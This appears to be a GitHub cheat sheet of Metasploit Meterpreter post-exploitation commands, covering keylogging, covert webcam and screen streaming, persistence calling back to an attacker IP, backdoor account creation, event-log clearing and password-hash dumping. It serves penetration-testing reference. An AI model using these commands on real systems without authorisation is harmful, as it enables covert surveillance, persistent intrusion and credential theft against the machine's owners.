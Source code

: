 # Meterpreter Commands

| Command | Description |
|---------|------|
| `sysinfo` | Displays system information |
| `dir`, `ls` | Lists files in the system |
| `screenshot` or `use espia; screengrab` | Takes a screenshot of the host |
| `screenshare` | Streams the host's screen live |
| `webcam_stream` | Streams the webcam live |
| `enumdesktops` | Lists all available desktops |
| `keyscan_start` | Starts capturing keystrokes |
| `keyscan_dump` | Displays captured keystrokes |
| `uictl disable keyboard / mouse` | Disables the keyboard or mouse |
| `TASKLIST` | Lists active processes |
| `kill <PID>` (e.g., `kill 260`) | Terminates a process by PID |
| `cat plik.txt` | Views the content of a text file |
| `execute -f notepad.exe -c` | Creates a new communication channel |
| `download file.txt` | Downloads a file from the target system |
| `run winenum` | Gathers all system information |
| `run persistence -A -S -U -I 60 -p 4321 -r <attacker_ip>` | Sets up persistent access on system startup |
| `cd` | Changes the current directory |
| `cat` | Displays text file content in the console |
| `del` | Deletes files |
| `run getgui -u Hacker -p 1337` | Creates a new user account |
| `run getgui -e` | Enables remote desktop control |
| `clearev` | Clears system event logs |
| `session -l` | Lists active sessions |
| `run post/windows/gather/hashdump` | Dumps password hashes |